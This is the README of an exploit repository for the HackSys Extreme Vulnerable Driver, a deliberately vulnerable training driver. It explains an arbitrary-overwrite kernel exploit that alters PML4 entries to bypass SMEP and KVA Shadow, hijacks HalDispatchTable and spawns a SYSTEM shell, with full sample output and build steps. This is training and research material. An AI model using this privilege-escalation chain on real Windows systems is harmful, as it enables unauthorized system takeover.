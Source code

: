 # HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit

## Introduction

This repository contains an exploit for [HackSys Extreme Vulnerable Driver (HEVD)](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) that bypasses [KVA Shadow](https://msrc.microsoft.com/blog/2018/03/kva-shadow-mitigating-meltdown-on-windows/), a mitigation for the Meltdown vulnerability.


## Exploit Overview

The exploit leverages [an Arbitrary Overwrite vulnerability in HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/b02b6ea/Driver/HEVD/Windows/ArbitraryWrite.c#L112), modifying the PML4 entry to bypass both KVA Shadow and SMEP.


## Tested Environment

This exploit was tested in the following environment:

- Windows 10 Version 22H2 (OS Build 19045.3930)
- KVA Shadow: Enabled
- VBS/HVCI: Disabled


### Sample Output

```
C:\Users\debuggee>HEVD_ArbitraryOverwrite.exe
HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit
Windows 10 Version 22H2 (OS Build 19045.3930) with KVA Shadow enabled
-----

[*] Executable shellcode: 000002846A110000
[+] HEVD device handle: 0000000000000098
[+] Kernel base address: FFFFF80560A00000
[+] NtQueryIntervalProfile: 00007FF8C704FA00

[*] Leaking virtual address of shellcode's PML4 entry...
[!] Writing: *(000000BF51BBFC60) = *(FFFFF80560C6B573)
[*] Leaked PTE virtual address: FFFF940000000000
[*] Extracted PML4 Self Reference Entry index: 128
[*] Extracted shellcode's PML4 index: 005
[*] Calculated virtual address for shellcode's PML4 entry: FFFF944A25128028

[*] Modifying shellcode's PML4 entry to bypass SMEP and KVA Shadow...
[!] Writing: *(000000BF51BBFC70) = *(FFFF944A25128028)
[*] Leaked shellcode's PML4 entry: 8A0000015F3D5867
[*] Modified shellcode's PML4 entry: 0A0000015F3D5863
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCB8)
[*] Overwrote PML4 entry to make shellcode executable in kernel mode

[*] Modifying HalDispatchTable+0x8 for shellcode execution...
[!] Writing: *(000000BF51BBFC70) = *(FFFFF80561600A68)
[*] Leaked HalDispatchTable+0x8: FFFFF80561392EF0
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFCE0)
[*] Overwrote HalDispatchTable+0x8 to gain control flow

[*] Executing shellcode...
[*] Executable SetR13 function allocated at: 000002846A240000
[*] Setting R13 to shellcode's address
[*] Calling NtQueryIntervalProfile to execute shellcode

[*] Restoring the kernel state...
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCF8)
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFD00)

[+] Spawning a shell with SYSTEM privilege
```

```
Microsoft Windows [Version 10.0.19045.3930]
(c) Microsoft Corporation. All rights reserved.

C:\Users\debuggee>whoami
nt authority\system
```


## Build

To build the exploit, execute the following command in [x64 Native Tools Command Prompt](https://learn.microsoft.com/cpp/build/how-to-enable-a-64-bit-visual-cpp-toolset-on-the-command-line?view=msvc-170):

```
cl.exe HEVD_ArbitraryOverwrite.c
```


## Verifying KVA Shadow Status

To verify if KVA Shadow is active on your system, use [SpecuCheck](https://github.com/ionescu007/SpecuCheck):

```
C:\Users\debuggee>SpecuCheck.exe
SpecuCheck v1.1.1    --   Copyright(c) 2018 Alex Ionescu
https://ionescu007.github.io/SpecuCheck/  --   @aionescu
--------------------------------------------------------

Mitigations for CVE-2017-5754 [rogue data cache load]
--------------------------------------------------------
[-] Kernel VA Shadowing Enabled:                    yes
 ├───> Unnecessary due lack of CPU vulnerability:    no
 ├───> With User Pages Marked Global:                no
 ├───> With PCID Support:                           yes
 └───> With PCID Flushing Optimization (INVPCID):   yes
...
```

